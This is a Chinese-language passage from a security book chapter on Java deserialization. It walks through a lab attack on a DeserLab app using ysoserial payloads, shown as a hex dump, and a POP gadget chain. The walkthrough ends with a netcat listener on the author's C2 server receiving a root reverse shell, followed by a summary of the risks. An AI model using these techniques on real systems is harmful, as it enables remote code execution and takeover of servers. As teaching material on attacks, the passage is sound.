如果我们检查生成的流量，我们可以看到协议初始化和测试字符串数据包，紧接着是由 ysoserial 生成的序列化对象，这些对象由`0x73 0x72`或`sr`字节标识：



```
**0000000A  77 02                                              w.**
 **0000000C  01 01                                              ..**
**0000000C  01 01                                              ..**
**0000000E  77 06 00 04 74 65 73 74  73 72 00 32 73 75 6e 2e   w...test sr.2sun.**
**0000001E  72 65 66 6c 65 63 74 2e  61 6e 6e 6f 74 61 74 69   reflect. annotati**
**[...]**
**000007EE  00 00 00 00 00 00 00 00  00 00 78 70               ........ ..xp**

```

在进一步分析数据包捕获时，我们注意到服务器响应中有一些有趣的内容：



服务器返回一个 `java.lang.ClassCastException`，这意味着它尝试将我们的有效负载转换为 `HashRequest` 但失败了。这是件好事，因为在捕获异常时，POP 工具链已经成功执行，我们的 C2 服务器上已经有了一个等待的 shell：

```
root@spider-c2-1:~# nc -lvp 443
listening on [any] 443 ...
connect to [10.2.0.4] from deserlab.app.internal [11.21.126.51] 48946
**id** 
**uid=0(root)**

**gid=0(root) groups=0(root)**

```

# 总结

在本章中，我们探讨了另一种用户输入被滥用的方式，它可以在易受攻击的应用程序上执行任意代码。序列化在现代应用程序中非常有用，特别是随着应用程序变得更加复杂和分布式。数据交换变得容易，但有时是以牺牲安全性为代价的。

在前面的示例中，由于对反序列化数据的处理过程做了假设，导致了应用程序的安全性受到威胁。对象流中没有可执行代码，至少在传统意义上是没有的，因为序列化的数据只是对象的一个状态快照。只要语言解释器安全地读取输入，它应该是安全的。也就是说，前提是没有缓冲区溢出或类似的漏洞。然而，正如我们所见，我们不需要利用 Java 虚拟机或 PHP 的解释器来妥协系统。我们能够利用反序列化功能，通过 POP 工具链的帮助，控制应用程序的执行流程。

在下一章中，我们将重点关注针对用户的实际攻击，利用应用程序漏洞。
